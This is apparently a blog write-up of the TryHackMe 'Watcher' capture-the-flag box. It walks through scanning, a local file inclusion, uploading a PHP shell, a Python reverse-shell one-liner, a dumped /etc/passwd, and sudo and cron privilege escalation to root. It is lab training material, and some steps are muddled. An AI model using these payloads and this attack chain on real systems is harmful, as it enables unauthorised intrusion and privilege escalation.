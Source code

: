 ```yaml
---
title: "Tryhackme: [Watcher](https://tryhackme.com/room/watcher)"
date: 2023-05-01T17:27:49+05:30
description: "THM watcher box solution"
draft: false
hideToc: false
enableToc: true
enableTocContent: false
tocFolding: false
tocPosition: inner
tocLevels: ["h2", "h3", "h4"]
tags:
- python
- shell
series:
- tryhackme
categories:
- writeup
- boxes
image:
---
```


### Nmap scan:
```
# Nmap 7.80 scan initiated Wed Apr 26 23:09:33 2023 as: nmap -sV -sC -oA nmap/nmap 10.10.54.168
Nmap scan report for 10.10.54.168
Host is up (0.14s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e1:80:ec:1f:26:9e:32:eb:27:3f:26:ac:d2:37:ba:96 (RSA)
|   256 36:ff:70:11:05:8e:d4:50:7a:29:91:58:75:ac:2e:76 (ECDSA)
|_  256 48:d2:3e:45:da:0c:f0:f6:65:4e:f9:78:97:37:aa:8a (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: Jekyll v4.1.1
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Corkplacemats
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Apr 26 23:09:58 2023 -- 1 IP address (1 host up) scanned in 24.59 seconds
```

### GOBuster
Do gobuster for files and check robots.txt for the files.
```
gobuster dir -u http://10.10.54.168 -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt
```

### FTP
Local file inclusion to get the ftp user `ftpuser:******`:
```
http://10.10.54.168/post.php?post=secret_file_do_not_read.txt
```
now that you get the ftp user's creds use those to login and get `flag_2.txt`
After that see that you can write to `files` directory and upload `shell.php` file so that you can setup revershell.

```
http://10.10.61.151/post.php?post=/home/ftpuser/ftp/files/shell.php
```

`cd home && ls` found users:
- ftpuser
- mat
- toby
- will

```
python3 -c 'import pty; pty.spawn("/bin/bash");'
```

```
#!/bin/bash
cp /home/mat/cow.jpg /tmp/cow.jpg
cp -r /home/mat/ /tmp/mat/
```


```
find / -name "flag_3.txt"
```

Test for crontabs
```
www-data@watcher:/$ crontab -l
no crontab for www-data
```

### cat /etc/passwd

```
www-data@watcher:/home/mat/scripts$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
will:x:1000:1000:will:/home/will:/bin/bash
ftp:x:111:114:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
ftpuser:x:1001:1001:,,,:/home/ftpuser:/usr/sbin/nologin
mat:x:1002:1002:,#,,:/home/mat:/bin/bash
toby:x:1003:1003:,,,:/home/toby:/bin/bash
```


```
www-data@watcher:/home/mat$ cat note.txt
Hi Mat,

I've set up your sudo rights to use the python script as my user. You can only run the script with sudo so it should be safe.

Will
```

```
www-data@watcher:/home/toby$ cat note.txt
Hi Toby,

I've got the cron jobs set up now so don't worry about getting that done.

Mat
```

```
www-data@watcher:/home/toby/jobs$ cat cow.sh
#!/bin/bash
cp /home/mat/cow.jpg /tmp/cow.jpg
```

```
www-data@watcher:/home/mat$ sudo -l
Matching Defaults entries for www-data on watcher:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on watcher:
    (toby) NOPASSWD: ALL
```


Use FTP on `/home/mat` and put `cow.jpg` to the ftp server this copies the files from mat to ftp user.

Also we have execute permissions on `/home/toby/jobs/cow.sh`

```
-rwxr-xr-x 1 toby toby   46 Dec  3  2020 cow.sh
```
Set the following reverse shell to escalate as mat using reverse shell

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("0.0.0.0", 4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

now as mat can edit the `cmd.py` file we can add a shell in the file to run bash as `will`

```
sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py
```

finally we can read the `/opt/backups/key.b64` to get the ssh key for the root user.

```
chmod 700 ~/.ssh/watcher.pub 
ssh -i ~/.ssh/watcher.pub root@ip
```

